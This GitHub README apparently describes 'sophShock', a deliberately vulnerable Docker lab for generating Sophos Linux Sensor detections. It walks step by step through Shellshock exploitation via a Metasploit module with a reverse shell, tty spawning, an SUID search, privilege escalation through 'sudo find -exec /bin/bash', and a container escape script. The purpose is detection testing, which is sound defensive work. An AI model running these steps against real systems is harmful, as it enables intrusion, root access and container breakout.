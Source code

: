 # sophShock

This image is for generating Sophos Linux Sensor detections.
For testing purposes only, advised not to run this in a public facing manner.

#Walk Thru
docker build . -t <name_of_container:tag>
docker run -dit -p 8080:80 --privileged <name_of_container:tag>

#Metasploit:
- search shellshock
- use exploit/multi/http/apache_mod_cgi_bash_env_exec

- set RHOST <ip addr>
- set RPORT 8080
- set LHOST <ip addr>
- set LPORT <reverse listening port>
- set TARGETURI /cgi-bin/shockme.cgi 
- run 

# establish tty
python -c 'import pty; pty.spawn("/bin/bash")'

# switch to user with sudo privileges
Perhaps one of the users has something interesting?
getent group sudo


# find files with SUID bit set
find / -perm -4000 2>/dev/null

# exploit find binary
sudo find . -exec /bin/bash -i \; -quit
(interactive shell detection from SLS)

# run escape.sh from root directory
(userland container escape detection)
 - outputs are in /output



#references:
- https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1
- https://github.com/SecurityWeekly/vulhub-lab/tree/master/bash/shellshock
